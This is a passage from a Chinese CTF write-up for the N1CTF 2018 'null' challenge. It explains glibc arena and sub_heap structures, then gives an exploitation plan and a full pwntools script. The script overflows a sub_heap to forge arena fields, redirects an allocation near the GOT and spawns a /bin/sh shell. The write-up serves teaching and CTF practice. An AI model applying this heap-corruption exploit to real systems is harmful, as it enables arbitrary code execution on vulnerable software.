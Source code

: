 ```c
     but this could result in a deadlock with ptmalloc_lock_all.  */

  (void) mutex_lock (&a->mutex);
```
这部分代码对新的`arean`进行了初始化和入链`main_arena`
## summary.
* 每个线程可能存在多个`sub_heap`,通过 `heap_info`结构链接
* 每个`thread`拥有一个`arena`来管理`sub_heap`
* 线程中堆操作本质上是在多个`sub_heap`中寻找适合的`chunk`
关键:两个结构体`heap_info`,`mstate`
**source is The best Teacher**
继续回到题目了.

# 思路
有了前面的基础知识,发现联系题目前已有条件.题目瞬间好像不怎么难了.
* 溢出`len`bytes
* malloc to pad
* No pie + system

所以我们可以:
* malloc * n to fill the first sub_heap
* malloc * n to fill the second sub_heap
* over flow to modify the first sub_heap's arena
* set the value of *0x000000000602038*

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("(0/1): ",str(c))
def add(size,pad,c=""):
	p.sendlineafter("Action: ",str(1))
	p.sendlineafter("Size: ",str(size))
	p.sendlineafter("blocks: ",str(pad))
def pad(n,m=1000):
	for x in range(n):
		add(0x4000,m)
		cmd(0)
context.log_level='debug'
p=process('./null')
p.sendafter("assword: \n","i'm ready for challenge\n")
pad(12)
pad(1,260)
add(0x4000,1)
cmd(1)
p.sendafter("Input: ","A"*0x3fff)
p.send("A"+"A"*8+p64(0x21)+'\x00'*0x10+p64(0)*4+p64(0x0000000300000000)+p64(0)*5+p64(0x60202d-0x10))
add(0x68,0)
cmd(1)
p.sendafter("Input: ","/bin/sh".ljust(11,'\x00')+p64(0x000000000400E4D).ljust(0xff,'\x00'))
p.interactive()
```

# REFERENCE
* http://p4nda.top/2018/03/15/n1ctf2018/#null
**Thank@p4nda**
* GLIBC-2.23 **source is The best Teacher**
* http://www.hulkdev.com/posts/glibc-arena

[1]: https://code.woboq.org/userspace/glibc/malloc/arena.c.html#reused_arena
[2]: http://p4nda.top/2018/03/15/n1ctf2018/#null
